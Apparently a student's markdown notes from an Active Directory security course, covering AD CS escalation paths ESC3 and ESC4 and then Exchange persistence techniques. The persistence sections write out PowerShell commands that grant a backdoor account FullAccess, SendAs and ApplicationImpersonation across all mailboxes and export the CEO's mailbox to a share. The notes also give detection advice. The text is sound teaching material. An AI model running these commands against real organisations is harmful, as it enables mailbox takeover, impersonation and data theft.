- Restrict Enroll rights on sensitive templates to admins only
- Use tools like Certify or Certipy to enumerate vulnerable templates in an assessment (defensive/audit context)

---

## Acronyms

| Acronym | Stands for | Meaning |
|---|---|---|
| ACL | Access Control List | Permissions attached to an object, e.g. a certificate template |
| CA | Certification Authority | Server that issues and signs certificates |
| CSR | Certificate Signing Request | Request containing template, subject, EKU, public key |
| DC | Domain Controller | Server running AD and authenticating users |
| EKU | Extended Key Usage | Defines what a certificate may be used for |
| ESC | Escalation (AD CS attack series) | Named AD CS misconfiguration attacks (ESC1, ESC2, ...) |
| SAN | Subject Alternative Name | Field in a certificate specifying additional identities it covers |
| UPN | User Principal Name | A user's logon name in `user@domain` format |

---
title: AD CS Attacks - ESC3 (Enrollment Agent Abuse)


# AD CS Attacks: ESC3

> [!abstract] Goal
> Understand how a misconfigured Enrollment Agent template lets a low-privileged user become a certificate "middleman" and request certificates impersonating any other identity, including Domain Admin.

---

## New concept: Enrollment Agent

> [!note] What it is
> An Enrollment Agent is a certificate holder who can request certificates **on behalf of other users**. This is a legitimate AD CS feature (e.g. IT staff issuing smart cards for employees). The power comes from a specific EKU: **Certificate Request Agent**. Any template carrying that application policy turns its holder into an enrollment agent.

---

## Where this fits vs ESC1

```mermaid
flowchart LR
    ESC1["ESC1<br/>one template<br/>attacker sets own SAN"]
    ESC3["ESC3<br/>two templates<br/>attacker becomes agent,<br/>then requests for someone else"]

    ESC1 -.->|"related misconfiguration<br/>category"| ESC3

    classDef esc1 fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef esc3 fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class ESC1 esc1
    class ESC3 esc3

    linkStyle default stroke:#888780,stroke-width:1.5px
```

ESC1 is a one-template problem: a single template both lets the requester pick their own identity and lets them enroll. ESC3 is a two-template chain: one template grants agent rights, a second template is where the impersonation happens.

---

## The two templates

| Template | Role | Misconfiguration |
|---|---|---|
| **Template A** ("agent" template) | Grants Enrollment Agent powers | Has **Certificate Request Agent** EKU + broad **Enroll** rights (e.g. given to Domain Users) |
| **Template B** (target template) | Normal auth template | Configured to accept requests made *on behalf of someone else* by an enrollment agent |

> [!tip] Lab checklist (Template A)
> - Extensions tab → Application Policies: **Certificate Request Agent** present
> - Security tab: a broad group (e.g. Domain Users) has **Enroll**
> - Subject Name tab: "Supply in the request" enabled (same condition as ESC1)

---

## Attack flow

```mermaid
flowchart TD
    A["Low-privileged domain user"]
    B["Enrolls in Template A<br/>(agent template)"]
    C["Receives Enrollment Agent certificate"]
    D["Uses agent cert to request<br/>Template B on behalf of<br/>Domain Admin"]
    E["CA sees valid agent request<br/>and issues the cert"]
    F["Attacker holds a certificate<br/>for the Domain Admin identity"]
    G["Attacker authenticates to DC<br/>as Domain Admin"]

    A --> B --> C --> D --> E --> F --> G

    classDef user fill:#9FE1CB,stroke:#0F6E56,stroke-width:1.5px,color:#04342C
    classDef ca fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef bad fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class A,B,C,D user
    class E ca
    class F,G bad

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## Why it's worse than a one-off ESC1 hit

> [!danger] Standing capability, not a single trick
> With ESC1, the attacker impersonates whatever identity they set in the SAN for that one request. With a compromised Enrollment Agent certificate, the attacker becomes a **middleman for any user's certificate requests** going forward, as long as a second template permits agent-based enrollment. It's a reusable capability, not a one-time impersonation.

---

## Key takeaways

- ESC3 needs **two** templates working together: one to grant agent rights, one to accept agent-submitted requests for other identities.
- The underlying flaw (over-permissive enroll + identity impersonation) is the same family as ESC1, but the impact is broader and reusable.
- Once an attacker holds a valid Enrollment Agent cert, they can request certs impersonating *any* user the second template allows, not just one target.
- Real-world impact: domain-wide persistence and lateral movement, since the attacker


---
title: AD CS Attacks - ESC4 (Template Write/Modify Abuse)

# AD CS Attacks: ESC4

> [!abstract] Goal
> Understand how a low-privileged user with **Write** rights on a certificate template object can modify the template itself to recreate the ESC1 conditions, then exploit it exactly like ESC1.

**Lab:** attacker account `Telco Engineer`, duplicated `User` template

---

## Where this fits

ESC1 and ESC3 both require a template that is **already** misconfigured. ESC4 is different: the attacker doesn't need a misconfigured template to exist yet — they need **Write** permission on the template object, which lets them create the misconfiguration themselves.

```mermaid
flowchart LR
    ESC1["ESC1 / ESC3<br/>template is already<br/>misconfigured"]
    ESC4["ESC4<br/>attacker has Write,<br/>makes the template<br/>misconfigured"]

    ESC1 -.->|"same end result:<br/>ESC1-shaped template"| ESC4

    classDef esc1 fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef esc4 fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class ESC1 esc1
    class ESC4 esc4

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## The permission that matters: Write

> [!note] Write vs Enroll
> Write (or Full Control) on a template lets the holder **edit the template's configuration**, including its own ACL. This is different from Enroll, which only lets you *request* a cert from the template as-is. ESC4 starts with Write, not Enroll.

| Permission | Lets the holder... |
|---|---|
| Read | View the template |
| Enroll | Request a cert using the template (as configured) |
| **Write / Full Control** | **Modify the template itself, including its ACL** |

---

## Attack flow

```mermaid
flowchart TD
    A["Low-privileged user<br/>has Write (not Enroll)<br/>on a template"]
    B["Edits the template's ACL,<br/>grants self Enroll"]
    C["Sets/confirms<br/>Supply in the request<br/>+ Client Authentication EKU"]
    D["Template now matches<br/>ESC1 conditions"]
    E["Attacker enrolls,<br/>sets SAN to privileged user"]
    F["CA issues cert for<br/>that privileged identity"]
    G["Attacker authenticates<br/>as the privileged user"]

    A --> B --> C --> D --> E --> F --> G

    classDef user fill:#9FE1CB,stroke:#0F6E56,stroke-width:1.5px,color:#04342C
    classDef ca fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef bad fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class A,B,C,E user
    class D,F ca
    class G bad

    linkStyle default stroke:#888780,stroke-width:1.5px
```

> [!tip] Lab checklist
> - Security tab: attacker account has **Write** (not yet Enroll)
> - Attacker edits the ACL to add themselves **Enroll**
> - Subject Name tab: "Supply in the request" enabled (same as ESC1)
> - Extensions tab: **Client Authentication** EKU present
> - Template must be **published** by the CA for the attack to matter

---

## Why the CA isn't "tricked"

> [!danger] The CA is doing its job correctly
> The CA checks: does the template exist, is it published, does the requester have Enroll, do the CSR settings match the template? After the attacker's edit, every answer is "yes" — because the attacker changed the template to make it true. The CA has no way to know the template was just tampered with. **The flaw is in who was allowed to hold Write on the template object**, not in the CA's validation logic.

---

## Key takeaways

- ESC4 is a **different path to the same destination** as ESC1: a template with attacker-controlled SAN + broad Enroll.
- The attacker doesn't invent new template behavior — they flip the same settings an admin would normally configure.
- Write on a template object is a privilege escalation primitive **by itself**, even if the template looks safe today, because it can be turned into ESC1 at will.
- Auditing templates must check **Write/Full Control** grants, not just Enroll — a safe-looking template can become vulnerable the moment someone with Write decides to change it.

---

## Acronyms

| Acronym | Stands for | Meaning |
|---|---|---|
| ACL | Access Control List | Permissions attached to an object, e.g. a certificate template |
| CA | Certification Authority | Server that issues and signs certificates |
| CSR | Certificate Signing Request | Request containing template, subject, EKU, public key |
| EKU | Extended Key Usage | Defines what a certificate may be used for |
| ESC | Escalation (AD CS attack series) | Named AD CS misconfiguration attacks (ESC1, ESC3, ESC4, ...) |
| SAN | Subject Alternative Name | Field in a certificate specifying additional identities it covers |

---
title: Exchange Server - Introduction and Core Components

# Exchange Server: Introduction and Core Components

> [!abstract] Goal
> Build a mental model of what Exchange Server is, why it's domain-joined, and what its four core components do — before later videos cover how attackers abuse it.

> [!info] Scope note
> This module stays at the **misconfiguration** level, not deep vulnerability research.

---

## What is Exchange Server?

Microsoft's enterprise-grade, on-premise email platform. Handles mailboxes, calendaring, contacts, and task management for an organization.

```mermaid
flowchart TD
    EX["Exchange Server"]
    EX --> M["Mailboxes for all users"]
    EX --> T["Mail transport"]
    EX --> CA["Client access"]
    EX --> AE["Admin endpoints"]
    EX --> API["API endpoints for automation"]

    classDef ex fill:#444441,stroke:#2C2C2A,stroke-width:2px,color:#FFFFFF
    classDef out fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C

    class EX ex
    class M,T,CA,AE,API out

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## Why it matters in an AD security course

> [!danger] The key fact
> Exchange integrates with Active Directory for permissions and authentication. To let domain users log into their own mailboxes with AD credentials, the **Exchange server itself gets joined to the domain**. That domain-join relationship is why Exchange shows up as an attack surface in AD security — not because email itself is risky, but because of what it inherits by being a domain member.

```mermaid
flowchart LR
    DC["Domain Controller"]
    EXS["Exchange Server<br/>(domain-joined)"]
    USR["Domain Users"]

    DC <-->|"permissions &<br/>authentication"| EXS
    USR -->|"log in with<br/>AD credentials"| EXS
    EXS -->|"personal mailbox<br/>access"| USR

    classDef dc fill:#9FE1CB,stroke:#0F6E56,stroke-width:1.5px,color:#04342C
    classDef exs fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef usr fill:#FAC775,stroke:#854F0B,stroke-width:1.5px,color:#412402

    class DC dc
    class EXS exs
    class USR usr

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## Core components

```mermaid
flowchart TD
    EX["Exchange Server"]

    EX --> OWA["OWA<br/>Outlook Web Access"]
    EX --> EWS["EWS<br/>Exchange Web Services"]
    EX --> MAPI["MAPI / Outlook Anywhere"]
    EX --> AD["Autodiscover"]

    OWA --> OWA1["Web-based client<br/>(like Gmail)"]
    OWA --> OWA2["Login, send, draft, read"]

    EWS --> EWS1["API endpoint on<br/>the Exchange server"]
    EWS --> EWS2["Programmatic access<br/>to mailbox data"]
    EWS --> EWS3["Used for automation,<br/>bulk admin tasks"]

    MAPI --> MAPI1["Protocol for thick<br/>Outlook clients"]
    MAPI --> MAPI2["Installed on laptops,<br/>workstations, servers"]

    AD --> AD1["Client configuration<br/>service"]
    AD --> AD2["Locates the right<br/>mailbox/server<br/>automatically"]

    classDef comp fill:#444441,stroke:#2C2C2A,stroke-width:2px,color:#FFFFFF
    classDef owa fill:#9FE1CB,stroke:#0F6E56,stroke-width:1.5px,color:#04342C
    classDef ews fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313
    classDef mapi fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef adisc fill:#FAC775,stroke:#854F0B,stroke-width:1.5px,color:#412402

    class EX comp
    class OWA,OWA1,OWA2 owa
    class EWS,EWS1,EWS2,EWS3 ews
    class MAPI,MAPI1,MAPI2 mapi
    class AD,AD1,AD2 adisc

    linkStyle default stroke:#888780,stroke-width:1.5px
```

### Component reference table

| Component | What it is | Who/what uses it |
|---|---|---|
| **OWA** (Outlook Web Access) | Web-based mailbox client | End users via browser, like a webmail portal |
| **EWS** (Exchange Web Services) | API endpoint for programmatic mailbox access | Admins and scripts, for automation at scale |
| **MAPI / Outlook Anywhere** | Protocols for the thick Outlook client | Outlook installed on laptops/workstations/servers |
| **Autodiscover** | Client auto-configuration service | Any client setting up a mailbox — finds the right server automatically |

---

## Why EWS stands out

> [!tip] Worth flagging now
> EWS is the component most likely to matter later in this module. It's an **API surface built for automation**, not a human-facing GUI like OWA. API endpoints tend to attract more attacker interest than GUIs, since they're designed for scripted, bulk operations and often have fewer human-in-the-loop checks. The tutor's mention of "commands or scripts attackers use" at the end of the video points toward EWS and the domain-join relationship as likely focus areas.

---

## Mental model summary

```mermaid
flowchart LR
    A["Exchange is domain-joined"] --> B["Inherits AD's<br/>authentication & permission model"]
    B --> C["Four components expose<br/>different access paths"]
    C --> D["OWA: human, browser"]
    C --> E["EWS: scripted, API"]
    C --> F["MAPI: thick client"]
    C --> G["Autodiscover: client config"]
    E -.->|"likely attack focus<br/>(per tutor's closing hint)"| H["Future video:<br/>misconfiguration abuse"]

    classDef root fill:#444441,stroke:#2C2C2A,stroke-width:2px,color:#FFFFFF
    classDef mid fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef leaf fill:#9FE1CB,stroke:#0F6E56,stroke-width:1.5px,color:#04342C
    classDef flag fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class A root
    class B,C mid
    class D,F,G leaf
    class E,H flag

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## Open questions for the next video

- [ ] What specific commands/scripts do attackers use against EWS?
- [ ] How does the domain-join relationship get abused beyond "users can log in"?
- [ ] Is there an Exchange equivalent of the ESC1-style template misconfiguration pattern?

---

## Acronyms

| Acronym | Stands for | Meaning |
|---|---|---|
| AD | Active Directory | Directory service storing users, computers, groups |
| API | Application Programming Interface | Programmatic interface for automation, as EWS exposes |
| EWS | Exchange Web Services | API endpoint for programmatic mailbox access |
| MAPI | Messaging API | Protocol used by thick Outlook clients |
| OWA | Outlook Web Access | Web-based email client |

---
t
# Exchange Server: Why It's Critical and Abused RBAC Roles

> [!abstract] Goal
> Understand why Exchange Server is a primary attacker target and which five RBAC roles are heavily abused once an attacker gets a foothold.

---

## Why Exchange is a target

```mermaid
flowchart TD
    EX["Exchange Server"]

    EX --> R["Reason 1: Rich data source"]
    EX --> P["Reason 2: High AD privileges"]

    R --> R1["Emails, calendars,<br/>attachments, contacts"]
    R --> R2["Credentials pasted into<br/>emails, Teams, Slack"]
    R --> R3["Password hashes /<br/>NTLM capture entry points"]

    P --> P1["Exchange servers often<br/>hold significant AD privileges"]
    P --> P2["High-value target once<br/>attacker is already Domain Admin"]
    P --> P3["Financial records, company-wide<br/>sensitive info, all mailboxes"]

    classDef ex fill:#444441,stroke:#2C2C2A,stroke-width:2px,color:#FFFFFF
    classDef reason fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef leaf fill:#9FE1CB,stroke:#0F6E56,stroke-width:1.5px,color:#04342C

    class EX ex
    class R,P reason
    class R1,R2,R3,P1,P2,P3 leaf

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## The five abused RBAC roles

```mermaid
flowchart TD
    OM["Organization Management<br/>full org control"]
    RM["Recipient Management<br/>create/modify mailboxes"]
    AI["ApplicationImpersonation<br/>read/send as other mailboxes"]
    TM["Transport Rules Management<br/>create/modify mail flow"]
    ME["Mailbox Import/Export<br/>export full mailbox data"]

    OM --> OM1["Add self to role,<br/>modify RBCD,<br/>create persistent svc accounts"]
    RM --> RM1["Backdoor mailboxes,<br/>grant Full Access / Send As"]
    AI --> AI1["If full-scope: access<br/>every mailbox in the domain<br/>stealthy persistence"]
    TM --> TM1["Silent forwarding rules,<br/>mail-based exfiltration"]
    ME --> ME1["Exfiltrate entire<br/>mailbox history"]

    classDef role fill:#444441,stroke:#2C2C2A,stroke-width:2px,color:#FFFFFF
    classDef abuse fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313
    classDef flag fill:#FAC775,stroke:#854F0B,stroke-width:2px,color:#412402

    class OM,RM,TM,ME role
    class AI flag
    class OM1,RM1,TM1,ME1 abuse
    class AI1 abuse

    linkStyle default stroke:#888780,stroke-width:1.5px
```

### Role reference table

| Role | What it does | How attackers abuse it |
|---|---|---|
| **Organization Management** | Full control of the entire Exchange org; normally only domain/enterprise admins | Add self to role, modify RBCD, create persistent service accounts with this role |
| **Recipient Management** | Create/modify mailboxes and permissions | Backdoor mailboxes, grant Full Access or Send As permissions |
| **ApplicationImpersonation** | Lets an account (often service account) read/send as other mailboxes | If full-scope: access to **every mailbox in the domain** — stealthy persistence |
| **Transport Rules Management** | Create/modify mail flow rules | Silent forwarding rules, mail-rule-based exfiltration |
| **Mailbox Import/Export** | Export entire mailbox contents | Exfiltrate full mailbox history from account creation onward |

> [!danger] Standout role: ApplicationImpersonation
> Designed legitimately for service accounts that need cross-mailbox read/send access. If scoped too broadly (not restricted to a specific department or mailbox set), compromising the holder grants access to **every mailbox in the domain**. This is the role covered in the upcoming cyber range lab.

---

## Connection to the domain-join relationship

```mermaid
flowchart LR
    DJ["Exchange is<br/>domain-joined"]
    RBAC["Inherits + extends its own<br/>RBAC permission model"]
    ABUSE["Roles abused for<br/>priv-esc and persistence<br/>(not cert-based like AD CS)"]

    DJ --> RBAC --> ABUSE

    classDef step fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef final fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class DJ,RBAC step
    class ABUSE final

    linkStyle default stroke:#888780,stroke-width:1.5px
```

These roles are powerful because of Exchange's deep AD integration (previous note). This is a **different exploitation path** than AD CS's certificate template misconfigurations — here the abuse runs through Exchange's own RBAC model.

---

## Key takeaways

- Exchange is targeted for two reasons: it's a goldmine of sensitive data, and it often holds significant AD privileges itself.
- Five roles matter most: Organization Management, Recipient Management, ApplicationImpersonation, Transport Rules Management, Mailbox Import/Export.
- ApplicationImpersonation is the stealthiest — a legitimate feature that becomes a domain-wide mailbox access path when over-scoped.
- The lab will focus specifically on ApplicationImpersonation abuse.

---

## Acronyms

| Acronym | Stands for | Meaning |
|---|---|---|
| AD | Active Directory | Directory service storing users, computers, groups |
| NTLM | NT LAN Manager | Legacy Windows authentication protocol; can be captured/relayed |
| RBAC | Role-Based Access Control | Exchange's permission model based on assigned roles |
| RBCD | Resource-Based Constrained Delegation | A delegation mechanism that can be abused for persistence |

---
title: Exchange Persistence - Mailbox Delegation (FullAccess + Send As)

# Exchange Persistence: Mailbox Delegation

> [!abstract] Goal
> Understand how an attacker who already holds Domain Admin / Enterprise Admin level access can plant a durable, mailbox-layer backdoor by granting a low-privileged account org-wide mailbox read access and send-as rights.

**Backdoor account (lab):** `TeleEngineer01`

---

## Where this fits

This is a **post-compromise persistence** technique, not an initial-access or privilege-escalation one. It assumes the attacker already has sufficient Exchange/AD rights (e.g. Organization Management) to run these cmdlets. The goal is to keep access even if the original compromised credential is reset or the intrusion is detected.

```mermaid
flowchart LR
    PRE["Attacker already has<br/>Domain Admin / Org Mgmt rights"]
    G1["Grant FullAccess<br/>to all mailboxes"]
    G2["Grant Send As<br/>to all mailboxes"]
    BACK["Backdoor account now has<br/>independent, durable access"]

    PRE --> G1 --> BACK
    PRE --> G2 --> BACK

    classDef pre fill:#444441,stroke:#2C2C2A,stroke-width:2px,color:#FFFFFF
    classDef step fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef result fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class PRE pre
    class G1,G2 step
    class BACK result

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## Command 1: Grant FullAccess to all mailboxes

```powershell
Get-Mailbox -ResultSize Unlimited | Add-MailboxPermission -User "TeleEngineer01" -AccessRights FullAccess -InheritanceType All
```

```mermaid
flowchart TD
    C1["Get-Mailbox -ResultSize Unlimited<br/>enumerate every mailbox, no 1000-item cap"]
    C2["Add-MailboxPermission<br/>grant delegate access on a mailbox"]
    C3["-User TeleEngineer01<br/>trustee receiving access"]
    C4["-AccessRights FullAccess<br/>open, read, move, delete content"]
    C5["-InheritanceType All<br/>applies to every folder, not just root"]

    C1 --> C2
    C2 --> C3
    C2 --> C4
    C2 --> C5

    classDef enum fill:#9FE1CB,stroke:#0F6E56,stroke-width:1.5px,color:#04342C
    classDef cmd fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef opt fill:#FAC775,stroke:#854F0B,stroke-width:1.5px,color:#412402

    class C1 enum
    class C2 cmd
    class C3,C4,C5 opt

    linkStyle default stroke:#888780,stroke-width:1.5px
```

| Part | Meaning |
|---|---|
| `Get-Mailbox` | Returns mailbox objects; default caps at 1000 results |
| `-ResultSize Unlimited` | Removes the cap — returns **every** mailbox in the org |
| `Add-MailboxPermission` | Grants mailbox-store-level delegate permission (same cmdlet used legitimately, e.g. assistant → manager's inbox) |
| `-User "TeleEngineer01"` | The trustee (backdoor account) receiving the grant |
| `-AccessRights FullAccess` | Read/write/delete access to mailbox content; does **not** include Send As on its own |
| `-InheritanceType All` | Propagates the permission to every subfolder (inbox, sent items, etc.), not just the mailbox root |

> [!danger] What this grants
> Full read/write access to the entire contents of **every mailbox in the organization** — emails, attachments, calendar, contacts — usable indefinitely without needing to re-compromise credentials.

---

## Command 2: Grant Send As to all mailboxes

```powershell
Get-Mailbox -ResultSize Unlimited | Add-RecipientPermission -Trustee "TeleEngineer01" -AccessRights SendAs -Confirm:$false
```

```mermaid
flowchart TD
    D1["Get-Mailbox -ResultSize Unlimited<br/>enumerate every mailbox"]
    D2["Add-RecipientPermission<br/>grants an AD extended right<br/>on the recipient object"]
    D3["-Trustee TeleEngineer01<br/>account receiving the right"]
    D4["-AccessRights SendAs<br/>send mail as the real owner,<br/>no 'on behalf of' header"]
    D5["-Confirm:$false<br/>suppresses per-mailbox prompt,<br/>allows unattended mass run"]

    D1 --> D2
    D2 --> D3
    D2 --> D4
    D2 --> D5

    classDef enum fill:#9FE1CB,stroke:#0F6E56,stroke-width:1.5px,color:#04342C
    classDef cmd fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef opt fill:#FAC775,stroke:#854F0B,stroke-width:1.5px,color:#412402

    class D1 enum
    class D2 cmd
    class D3,D4,D5 opt

    linkStyle default stroke:#888780,stroke-width:1.5px
```

| Part | Meaning |
|---|---|
| `Add-RecipientPermission` | Grants an AD-level extended right on the recipient object (vs. mailbox-store permission) |
| `-Trustee "TeleEngineer01"` | The backdoor account receiving the right |
| `-AccessRights SendAs` | Lets the trustee send mail that appears to come directly from the target mailbox — indistinguishable from a genuine message |
| `-Confirm:$false` | Suppresses the interactive confirmation prompt so the grant can run unattended across potentially thousands of mailboxes |

> [!danger] What this grants
> The ability to send email as **any user in the org**, including high-value targets (CEO, domain admin), for highly convincing impersonation/social-engineering (e.g. requesting credentials or access from DevOps).

---

## Combined impact

```mermaid
flowchart LR
    FA["FullAccess<br/>read everything"]
    SA["Send As<br/>impersonate anyone"]
    IMPACT["Durable mailbox-layer backdoor<br/>survives password resets<br/>independent of original intrusion path"]

    FA --> IMPACT
    SA --> IMPACT

    classDef right fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313
    classDef impact fill:#E24B4A,stroke:#791F1F,stroke-width:2px,color:#FFFFFF

    class FA,SA right
    class IMPACT impact

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## Key takeaways

- All three cmdlets (`Get-Mailbox`, `Add-MailboxPermission`, `Add-RecipientPermission`) are **native, legitimate Exchange Management Shell cmdlets** — not malware. This is Living Off the Land (LOLBin-style) abuse applied to Exchange.
- What makes it malicious is context, not tooling: attacker already needs elevated rights to run it, the scope is unusually broad (`-ResultSize Unlimited` = all mailboxes instead of a few), and the grantee is an unexpected/low-privileged account.
- FullAccess and Send As are separate rights — FullAccess alone does not let the attacker send as the victim; both grants are combined for full impersonation + content access.
- `-Confirm:$false` is a mild automation/OPSEC detail enabling silent, unattended mass execution.
- This persists independently of the original compromised credential — closing the initial intrusion path does not remove this backdoor.

> [!tip] Detection angle
> Because these are standard cmdlets, signature-based tools won't flag this. Detection has to be behavioral: alert on mass permission grants (`Add-MailboxPermission` / `Add-RecipientPermission` run against large mailbox result sets), and on any non-admin/unexpected account suddenly gaining org-wide `FullAccess` or `SendAs` rights. Exchange/AD audit logging (mailbox audit logging, admin audit log) is the relevant data source.

---

## Acronyms

| Acronym | Stands for | Meaning |
|---|---|---|
| ACE | Access Control Entry | A single permission entry within an ACL |
| AD | Active Directory | Directory service storing users, computers, groups |
| LOLBin | Living Off the Land Binary | Abuse of legitimate, built-in tools for malicious ends |
| MAPI | Messaging Application Programming Interface | Protocol Outlook uses to talk to Exchange |
| OPSEC | Operational Security | Practices attackers use to avoid detection |
| OWA | Outlook Web App | Browser-based Outlook/Exchange client |


---
title: Exchange Persistence - ApplicationImpersonation Role Assignment

# Exchange Persistence: ApplicationImpersonation Role Assignment

> [!abstract] Goal
> Understand how an attacker who already holds Domain Admin / Exchange Administrator rights can grant the ApplicationImpersonation role directly to a backdoor account, gaining org-wide mailbox access in a single assignment.

**Backdoor account (lab):** `TeleEngineer01`
**Role assignment name (lab):** `IMPS`

---

## Where this fits

This is the third persistence technique in the series, after FullAccess + Send As delegation. Same precondition — attacker already has Domain Admin / Exchange Administrator rights — but a different, more efficient mechanism: instead of looping permission grants over every individual mailbox, the attacker assigns one **RBAC role** that implicitly covers the whole org.

```mermaid
flowchart LR
    PRE["Attacker already has<br/>Domain Admin / Exchange Admin rights"]
    CMD["New-ManagementRoleAssignment<br/>Role: ApplicationImpersonation"]
    BACK["Backdoor account can now<br/>access, read, send as<br/>any mailbox in the domain"]

    PRE --> CMD --> BACK

    classDef pre fill:#444441,stroke:#2C2C2A,stroke-width:2px,color:#FFFFFF
    classDef step fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef result fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class PRE pre
    class CMD step
    class BACK result

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## The command

```powershell
New-ManagementRoleAssignment -Name "IMPS" -Role "ApplicationImpersonation" -User "TeleEngineer01"
```

```mermaid
flowchart TD
    C1["New-ManagementRoleAssignment<br/>binds a management role to a user/group"]
    C2["-Name IMPS<br/>arbitrary label for this assignment object"]
    C3["-Role ApplicationImpersonation<br/>normally scoped to service accounts<br/>that legitimately act across mailboxes"]
    C4["-User TeleEngineer01<br/>backdoor account receiving the role"]

    C1 --> C2
    C1 --> C3
    C1 --> C4

    classDef cmd fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef opt fill:#FAC775,stroke:#854F0B,stroke-width:1.5px,color:#412402
    classDef risk fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class C1 cmd
    class C2,C4 opt
    class C3 risk

    linkStyle default stroke:#888780,stroke-width:1.5px
```

| Part | Meaning |
|---|---|
| `New-ManagementRoleAssignment` | Built-in, legitimate Exchange cmdlet that binds an RBAC management role to a user or group |
| `-Name "IMPS"` | Arbitrary label for the assignment object — no functional effect, just an identifier |
| `-Role "ApplicationImpersonation"` | The role being granted — intended for service accounts that need cross-mailbox read/send (backup tools, migration services, compliance scanners) |
| `-User "TeleEngineer01"` | The backdoor account receiving the role |

> [!danger] What this grants
> `TeleEngineer01` can now access, read, and send mail **as any mailbox in the domain** — a single role assignment, with no need to loop over individual mailboxes or grant per-mailbox permissions.

---

## Why this technique stands out

> [!tip] More efficient than per-mailbox delegation
> Unlike the FullAccess + Send As technique (which required enumerating and looping over every mailbox individually), ApplicationImpersonation grants org-wide impersonation implicitly through one role assignment — fewer commands, fewer objects touched, and no visible mass change across individual mailbox ACLs.

**Stated use case for the attacker:** hunting sensitive information across every mailbox in the org and extracting secrets — credentials, confidential files, or other sensitive data pasted into emails.

This is the technique the upcoming cyber range lab will focus on hands-on.

---

## Key takeaways

- `New-ManagementRoleAssignment` is a standard, legitimate Exchange cmdlet — same LOLBin-style abuse pattern as the earlier FullAccess/Send As technique.
- ApplicationImpersonation achieves the same end goal (org-wide mailbox access + impersonation) as the previous two-command technique, but in a single assignment — making it the stealthier, more efficient persistence method.
- The malicious element is entirely contextual: an attacker with elevated rights assigning a powerful role, intended for service accounts, to an unexpected low-privileged account.
- Role name (`-Name`) is cosmetic and chosen freely by whoever runs the command — not a reliable detection signal on its own.

> [!tip] Detection angle
> Monitor `New-ManagementRoleAssignment` calls that assign `ApplicationImpersonation` (or other broad roles) to accounts outside known service-account inventories. Cross-reference role assignments against an approved list of accounts/scopes — any unexpected grantee is a strong indicator of abuse.

---

## Acronyms

| Acronym | Stands for | Meaning |
|---|---|---|
| AD | Active Directory | Directory service storing users, computers, groups |
| RBAC | Role-Based Access Control | Exchange's permission model based on assigned roles |


---

# Exchange Persistence: Mailbox Import/Export Backdoor

> [!abstract] Goal
> Understand how an attacker with compromised privileged mailboxes (domain admins, C-level execs) grants a backdoor account the Mailbox Import/Export role, then exports full mailbox contents to an attacker-controlled file share.

**Backdoor account (lab):** `TeleEngineer01`

---

## Where this fits

Final step in the chain — the prior three techniques (FullAccess, Send As, ApplicationImpersonation) establish *access*. This one converts access into a portable, offline **exfiltrated copy** of mailbox data.

```mermaid
flowchart LR
    PRE["Attacker already has<br/>access to privileged mailboxes"]
    G1["Grant Mailbox Import/Export role<br/>scope: global wildcard, all mailboxes"]
    G2["New-MailboxExportRequest<br/>dump target mailbox to .pst"]
    OUT["Full mailbox history copied<br/>to attacker-controlled share"]

    PRE --> G1 --> G2 --> OUT

    classDef pre fill:#444441,stroke:#2C2C2A,stroke-width:2px,color:#FFFFFF
    classDef step fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef result fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class PRE pre
    class G1,G2 step
    class OUT result

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## Step 1: Grant the role

```powershell
New-ManagementRoleAssignment -Role "Mailbox Import Export" -User "TeleEngineer01"
```

| Part | Meaning |
|---|---|
| `New-ManagementRoleAssignment` | Built-in Exchange cmdlet binding a management role to a user |
| `-Role "Mailbox Import Export"` | Grants rights to export (and import) mailbox contents |
| `-User "TeleEngineer01"` | Backdoor account receiving the role |
| Scope (demo) | Global wildcard — role applies to **every mailbox in the domain**, not just already-compromised ones |

---

## Step 2: Export the mailbox

```powershell
New-MailboxExportRequest -Mailbox "ceo@teleco80..." -FilePath "\\server\share\path\export.pst"
```

```mermaid
flowchart TD
